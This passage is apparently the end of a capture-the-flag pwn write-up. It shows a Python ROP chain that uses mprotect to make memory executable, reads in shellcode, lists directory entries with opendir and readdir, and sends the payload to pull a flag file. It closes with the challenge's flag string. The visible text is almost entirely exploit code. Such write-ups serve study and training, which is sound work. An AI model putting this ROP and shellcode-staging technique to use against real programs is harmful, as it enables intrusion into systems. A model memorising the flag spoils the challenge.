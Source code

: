 ```
        # make it rwx
        pop_rdi_ret_addr,
        0x0000000000404000,
        pop_rsi_ret_addr,
        0x1000,
        pop_rdx_ret_addr,
        1|2|4,
        libc_base_addr + libc.sym["mprotect"],
        # writing some gadget
        pop_rdi_ret_addr,
        0,
        pop_rsi_ret_addr,
        writable_addr,
        pop_rdx_ret_addr,
        0x100,
        exe.sym["read"],
        # print first filename
        pop_rdi_ret_addr,
        libc_base_addr + next(libc.search(b".\0")),
        libc_base_addr + libc.sym["opendir"],
        mov_rdi_rax_ret_addr,
        mov_r15_rdi_ret_addr,
        libc_base_addr + libc.sym["readdir"],
        add_rax_19_ret_addr,
        mov_rdi_rax_ret_addr,
        exe.sym["puts"],
        mov_rdi_r15_ret_addr,
        libc_base_addr + libc.sym["readdir"],
        add_rax_19_ret_addr,
        mov_rdi_rax_ret_addr,
        exe.sym["puts"],
        mov_rdi_r15_ret_addr,
        libc_base_addr + libc.sym["readdir"],
        add_rax_19_ret_addr,
        mov_rdi_rax_ret_addr,
        exe.sym["puts"],
        mov_rdi_r15_ret_addr,
        libc_base_addr + libc.sym["readdir"],
        add_rax_19_ret_addr,
        mov_rdi_rax_ret_addr,
        exe.sym["puts"],
        # mov_rdi_r15_ret_addr,
        # libc_base_addr + libc.sym["readdir"],
        # add_rax_19_ret_addr,
        # mov_rdi_rax_ret_addr,
        # exe.sym["puts"],
        read_file_addr
    ]
})
# input("asdf")
io.send(rop_3)
# input("writing gadgets")
io.send(final_shellcodes)
# input("lol")
log_print("filenames",io.recv())
io.send(flag_file_name)
log_print(io.recv())
```

# 0x4 Flag

gigem{r34lly_p1v071n6_7h47_574ck}
